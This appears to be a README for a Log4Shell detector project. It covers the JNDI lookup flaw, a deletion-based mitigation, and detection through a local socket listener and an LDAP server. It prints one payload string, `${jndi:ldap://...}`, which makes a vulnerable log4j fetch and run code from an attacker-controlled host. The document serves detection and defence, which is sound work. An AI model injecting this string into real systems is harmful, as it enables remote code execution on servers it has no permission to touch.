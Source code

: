 # Log4Shell Zero-Day Exploit

if attacker manage to log this string `${jndi:ldap://someaddresshere/param1=value1}`
to log4j it somehow loads the class/java bytecode sent by Attacker Controlled LDAP Server. The bytecode could be used to
execute any malicious code or do some little trolling.

## Detection

### Patched

- Mitigated by deleting `org.apache.logging.log4j.core.lookup.JndiLookup` somehow didn't crash
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919169712435388466/unknown.png)

### Unpatched

- Note: 1.16.5 Minecraft Server
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919170755843989534/unknown.png)
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919172251771895878/unknown.png)

### [MainDetector.java](standalone-detector/src/main/java/itzbenz/MainDetector.java)

Use simple socket to listen on port 1389 then close the socket once its connected no external dependency

- Vulnerable:\
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919166884425900082/unknown.png)

- Console:\
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919166938654072852/unknown.png)

going to throw error if its is vulnerable

### [MainAlerter.java](standalone-detector/src/main/java/itzbenz/MainAlerter.java)

Use `com.unboundid:unboundid-ldapsdk` library to host LDAP server

- Vulnerable:
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919168285709312000/unknown.png)
- LADP Server:
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919171844836311050/unknown.png)

### DNS Log

Both sender and receiver are logged which mean they are vulnerable

- Vulnerable:
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919174049861619752/unknown.png)

## Conclusion

- if `com.sun.jndi.ldap.object.trustURLCodebase` property is set to `true` then you are vulnerable like really
  ![](https://cdn.discordapp.com/attachments/918290369639227434/919240541810610206/unknown.png)

# Disclaimer

This project can only be used for educational purposes. Using this software against target systems without prior
permission is illegal, and any damages from misuse of this software will not be the responsibility of the author.
